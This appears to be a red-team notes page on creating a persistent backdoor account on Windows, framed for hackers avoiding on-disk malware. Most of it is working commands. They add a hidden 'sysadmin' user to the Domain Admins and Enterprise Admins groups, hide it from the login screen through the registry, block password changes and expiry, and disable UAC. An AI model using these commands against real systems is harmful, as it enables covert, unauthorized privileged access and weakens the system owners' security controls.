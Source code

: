 # Create User

Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Make your decisions wisely.

## 01 - Command Prompt

- Method 1

```
C:\> net user sysadmin s3cur3d+1T /add /y

C:\> net group "Domain Admins" sysadmin /add /domain

C:\> net group "Enterprise Admins" sysadmin /add /domain

C:\> net user sysadmin /domain /expires:never /y
```

- Method 2

`C:\> dsadd user "cn=<username>,cn=Users,dc=<domain_name>,dc=<tdl>" -pwd <password>`

Makes the user account invisible from the Windows Login screen

`C:\> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f`

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

`C:\> net user sysadmin /passwordchg:no`

Never expire the password (this command is intrusive so be careful)

`C:\> net accounts /maxpwage:unlimited`

Disabling UAC that allows the hacker to take full control

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

Enabling UAC to make the admin restrictive

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f`

## 02 - Powershell

TODO: Create user account in the domain controller

`PS C:\> New-LocalUser -Name sysadmin -NoPassword`